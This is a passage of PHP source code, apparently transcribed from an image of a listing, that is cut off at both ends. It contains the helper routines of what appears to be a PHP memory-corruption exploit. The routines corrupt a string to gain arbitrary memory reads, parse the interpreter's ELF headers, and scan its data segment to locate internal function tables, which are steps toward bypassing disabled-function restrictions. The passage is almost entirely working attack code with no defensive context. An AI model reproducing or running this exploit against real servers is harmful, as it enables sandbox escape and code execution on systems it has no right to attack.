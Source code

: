 ```php
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

```